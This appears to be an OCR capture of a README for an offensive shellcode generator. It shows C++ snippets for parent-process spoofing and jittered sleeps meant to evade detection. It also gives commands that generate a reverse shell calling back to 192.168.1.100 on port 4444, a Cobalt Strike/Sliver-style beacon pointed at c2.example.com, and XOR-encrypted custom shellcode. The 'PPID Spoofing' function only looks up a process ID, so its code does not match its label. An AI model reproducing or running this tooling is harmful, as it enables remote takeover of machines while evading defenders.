 ### PPID Spoofing

```cpp
DWORD SpoofParentProcess(const std::string& targetProcess) {
    // Find target process
    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 pe32;
    pe32.dwSize = sizeof(PROCESSENTRY32);
    
    if (Process32First(hSnapshot, &pe32)) {
        do {
            if (_stricmp(pe32.szExeFile, targetProcess.c_str()) == 0) {
                return pe32.th32ProcessID;
            }
        } while (Process32Next(hSnapshot, &pe32));
    }
    return 0;
}
```

### Timing Evasion

```cpp
void SleepWithJitter(DWORD baseTime) {
    std::random_device rd;
    std::mt19937 gen(rd());
    std::uniform_int_distribution<> dis(baseTime * 0.8, baseTime * 1.2);
    Sleep(dis(gen));
}
```

## 📊 Shellcode Types

### 1. Reverse Shell

```bash
# Generate reverse shell
python shellcode_generator.py --type reverse_shell --ip 192.168.1.100 --port 4444 --arch x64
```

### 2. C2 Beacon

```bash
# Generate Cobalt Strike/Sliver beacon
python shellcode_generator.py --type beacon --c2-url https://c2.example.com --arch x64
```

### 3. Custom Shellcode

```bash
# Load custom shellcode from file
python shellcode_generator.py --input custom_shellcode.bin --encryption xor --format c
```
